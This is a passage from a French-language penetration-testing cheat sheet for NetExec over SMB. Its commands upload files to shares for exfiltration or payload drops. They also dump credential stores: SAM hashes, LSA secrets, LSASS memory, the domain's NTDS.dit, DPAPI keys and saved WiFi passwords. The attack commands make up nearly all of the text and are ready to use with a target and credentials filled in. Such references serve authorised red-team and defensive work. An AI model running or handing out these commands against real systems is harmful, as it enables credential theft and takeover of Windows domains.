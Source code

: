 ```bash
# Uploader un fichier spécifique

netexec smb <cible> -u <user> -p <pass | -H hash> --put-file fichier_local.txt '\\<PARTAGE>\<chemin>\fichier.txt'

```

  

* **Contexte :** Interagir avec les partages de fichiers SMB.

* **Usage :** Recherche de fichiers sensibles, exfiltration de données, dépôt d'outils/payloads.

* **Prérequis :** Permissions de lecture/écriture appropriées sur les partages.

  

#### Dump d'Informations Sensibles

  

> \[!Attention]

> Ces actions sont très intrusives, bruyantes et nécessitent des privilèges élevés (Admin local ou Domain Admin).

  

```bash

# Dumper les hashes SAM locaux

netexec smb <cible> -u <user> -p <pass | -H hash> --sam

  

# Dumper les secrets LSA locaux (peut contenir clés, mots de passe de service...)

netexec smb <cible> -u <user> -p <pass | -H hash> --lsa

  

# Dumper la mémoire du processus LSASS (peut contenir mots de passe en clair, tickets...)

netexec smb <cible> -u <user> -p <pass | -H hash> -M lsassy

  

# Dumper la base de données NTDS.dit (hashes de tous les comptes du domaine)

netexec smb <DC_cible> -u <domain_admin> -p <pass | -H hash> --ntds [vss]

# [vss] : Utilise Volume Shadow Copy pour une copie plus stable (recommandé)

# Prérequis: Domain Admin sur un Contrôleur de Domaine.

  

# Dumper les clés DPAPI

netexec smb <cible> -u <user> -p <pass | -H hash> --dpapi

  

# Dumper les mots de passe Wifi stockés

netexec smb <cible> -u <user> -p <pass | -H hash> -M wireless

  
```